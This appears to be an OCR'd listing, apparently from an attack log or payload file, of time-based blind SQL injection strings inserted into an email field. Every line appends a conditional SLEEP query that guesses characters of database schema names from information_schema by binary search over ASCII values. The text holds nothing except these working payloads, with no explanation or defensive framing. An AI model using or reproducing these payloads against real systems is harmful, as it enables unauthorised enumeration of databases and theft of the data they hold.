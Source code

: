 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=106,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>106,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=105,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=111,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}